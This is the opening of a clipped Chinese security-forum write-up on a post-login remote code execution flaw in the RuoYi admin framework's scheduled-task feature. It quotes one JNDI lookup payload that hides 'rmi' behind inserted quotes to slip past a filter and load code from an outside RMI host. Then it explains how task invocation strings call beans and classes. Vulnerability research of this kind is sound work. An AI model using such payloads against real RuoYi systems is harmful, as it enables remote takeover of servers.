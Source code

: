 ```yaml
---
title: 奇安信攻防社区 - 若依最新版后台 RCE
url: https://forum.butian.net/share/2796
clipped_at: 2024-03-15 09:21:00
category: default
tags: 
 - forum.butian.net
---
```



# 奇安信攻防社区 - 若依最新版后台 RCE

## 前言

关于若依漏洞或者是审计的文章网上挺多的，本来就只是想写一下最新版 4.7.8 的 RCE。因为之前没接触过若依就打算看看定时任务实现的原理以及历史的漏洞，但是在查阅资料的时候，发现了**一些**文章给的 poc 有问题，比如作者写的是 < 4.7.2 时，给的是 `org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://ip:端口/refObj')`，大概作者的目的是想说明可以通过若依对字符串的处理的一些问题 (参数中的`'` 会替换为空) 绕过对 `rmi` 的过滤，但是却没有考虑到 `org.springframework.jndi` 在 4.7.1 版本中已经加入了黑名单。作者也只是给出了 poc，并没有复现的过程！

## 计划任务实现原理

从[官方文档](https://doc.ruoyi.vip/ruoyi/document/htsc.html#%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1)可以看出可以通过两种方法调用目标类：

-   Bean 调用示例：ryTask.ryParams ('ry')
-   Class 类调用示例：com.ruoyi.quartz.task.RyTask.ryParams ('ry')

接下来咱调试一下，看看具体是如何实现的这个功能的

首先直接在测试类下个断点，看看调用

![image-20240305195847965](assets/1710465660-ea49a5b872265f22736d924e9fb05ab5.png)
